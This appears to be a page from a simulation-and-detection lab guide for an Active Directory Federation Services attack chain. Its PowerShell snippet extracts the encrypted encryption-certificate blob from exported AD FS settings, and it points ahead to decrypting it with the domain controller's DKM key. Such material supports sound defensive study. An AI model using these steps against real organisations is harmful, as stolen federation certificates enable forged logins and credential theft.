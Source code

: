 # Extract Active Directory Federation Services (AD FS) Encryption Certificate

After exporting the configuration settings of the AD FS database, a threat actor would use it to extract sensitive information such as certificates (Token signing and encryption) in an encrypted format which can later be decrypted and used for further actions.

## Preconditions
* Endpoint: ADFS01 or WORKSTATION6
    * Even when this step would happen outside of the organization, we can use the same PowerShell session on one of the endpoints where we [exported the AD FS configuration settings](exportADFSConfigurationSettings.md) from to go through the simulation steps.
    * AD FS Configuration Settings
        * The output from the previous step (`XML strings` object or `Microsoft.IdentityServer.PolicyModel.Configuration.ContractObject` object) is saved in the variable `$settings`. Use it in the PowerShell snippets below.

## Extract AD FS Encryption Certificate

Remember that the certificate is extracted as an encrypted blob.

### XML String Object

```PowerShell
[xml]$xml=$settings
$encEncryptionPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalEncryptionTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encEncryptionPfx)
$encPfxBytes | Format-Hex
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_12_adfs_get_encrypted_encryption_cert.png)

## Output

Use the variable `$encEncryptionPfx` in the next step to [decrypt the AD FS encryption certificate](decryptADFSEncryptionCertificate.md). Remember that you must [get the AD FS DKM master key value](exportADFSDKMMasterKeyFromDC.md) first from the domain controller to decrypt the certificates.

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
